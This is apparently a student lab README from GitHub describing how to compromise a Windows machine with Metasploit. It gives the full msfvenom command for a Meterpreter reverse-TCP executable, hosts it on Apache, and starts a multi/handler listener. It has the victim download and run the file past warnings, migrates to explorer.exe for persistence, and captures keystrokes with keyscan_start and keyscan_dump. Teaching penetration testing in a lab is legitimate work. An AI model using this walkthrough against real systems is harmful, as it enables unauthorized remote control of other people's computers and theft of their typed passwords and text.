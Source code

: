 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig

## OUTPUT:

![image](https://github.com/LakshmanAdhireddy/Compromising-windows-using-Metasploit/assets/118707265/88064344-1940-4f15-8a52-ca2380e2ae21)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT
![image](https://github.com/LakshmanAdhireddy/Compromising-windows-using-Metasploit/assets/118707265/8fbcb94f-8334-442d-a6ac-031c04ffaf65)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/LakshmanAdhireddy/Compromising-windows-using-Metasploit/assets/118707265/d25cf573-c2a6-4985-b332-d19a1aee9453)

Start apache server sudo systemctl apache2 start
![image](https://github.com/LakshmanAdhireddy/Compromising-windows-using-Metasploit/assets/118707265/d84eefbb-435a-4b31-8ef3-7889975e962e)

Check the status of apache2
![image](https://github.com/LakshmanAdhireddy/Compromising-windows-using-Metasploit/assets/118707265/f3e41a9e-1449-4b65-9f6e-59ccaf5b39c9)

Invoke msfconsole:

### OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/LakshmanAdhireddy/Compromising-windows-using-Metasploit/assets/118707265/365bd943-d66c-4c6f-bded-05b920cd0151)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/LakshmanAdhireddy/Compromising-windows-using-Metasploit/assets/118707265/fd85c222-108b-43fe-8bb2-7a40f00b3133)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/LakshmanAdhireddy/Compromising-windows-using-Metasploit/assets/118707265/fbd38c2f-ed48-41b2-9ecf-0be37bffee17)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/LakshmanAdhireddy/Compromising-windows-using-Metasploit/assets/118707265/5d26d0ba-a112-402e-985b-7d1ed47199a4)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/LakshmanAdhireddy/Compromising-windows-using-Metasploit/assets/118707265/af832951-cc73-4944-8f1d-8b0494b41d5f)

keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/LakshmanAdhireddy/Compromising-windows-using-Metasploit/assets/118707265/0b655167-cb4c-47f9-bba0-28db6985e7fb)


## RESULT:

The Metasploit framework is  used to compromise windows and is examined successfully.
